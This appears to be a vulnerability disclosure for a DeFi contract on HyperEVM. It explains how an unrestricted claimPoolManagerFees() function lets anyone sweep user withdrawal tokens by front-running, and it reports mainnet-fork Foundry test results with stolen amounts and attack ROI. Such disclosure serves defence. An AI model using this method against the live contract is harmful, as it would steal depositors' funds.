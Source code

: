 ### The Core Issues:

1. **Temporary Token Holding:** Withdrawal tokens sit in the contract between receiving from pool and sending to user
2. **No Access Control:** `claimPoolManagerFees()` is `external` - anyone can call it anytime
3. **No Distinction:** Function treats ALL tokens as fees, including user withdrawal funds
4. **Front-Running Window:** The time gap between transactions allows attackers to insert their transaction

---

##    MAINNET FORK PROOF

We created comprehensive tests that prove this vulnerability on actual mainnet state:

### Test Environment:
- **Network:** HyperEVM Mainnet Fork
- **RPC:** https://rpc.hyperliquid.xyz/evm
- **Fork Block:** 17,415,246
- **Test Framework:** Foundry
- **Commit Hash:** 594221cd9802d9aecb93c59da2aafea74f341d4d

### Test Results:

```
Ran 7 tests for test/MainnetForkExploit.t.sol:MainnetForkExploit

[PASS] testProof1_ExistingFundsVulnerable()  
  Current State:
    WHYPE in STEXAMM: 10 WHYPE
    stHYPE in STEXAMM: 215 stHYPE
    Total Value at Risk: $8,375 USD
  
  Attack Execution:
    Attacker calls claimPoolManagerFees()...
  
  Results:
    Fee Recipient 1 gained: 5 WHYPE
    Fee Recipient 2 gained: 5 WHYPE
    Total Stolen: 10 WHYPE
    STEXAMM balance after: 0 WHYPE
  
  [VULNERABILITY CONFIRMED]

[PASS] testProof4_EconomicFeasibility()  
  Pool TVL: $5,621,948
  Attack ROI at different withdrawal sizes:
    - 1 WHYPE: 19,373% ROI
    - 10 WHYPE: 194,637% ROI  
    - 100 WHYPE: 1,947,269% ROI
    - 1,000 WHYPE: 19,473,584% ROI
  
  [ECONOMIC FEASIBILITY: HIGHLY PROFITABLE]

[PASS] testProof5_MultipleAttackVectors()  
  ATTACK VECTOR 1: Front-Running Withdrawal ✓
  ATTACK VECTOR 2: Direct Donation Attack ✓
  ATTACK VECTOR 3: Batch Withdrawal Attack ✓
  ATTACK VECTOR 4: Fee Manipulation ✓

[PASS] testProof6_TransactionOrderingProof()  
  Mempool visibility: ~100-500ms
  Bot reaction time: <10ms
```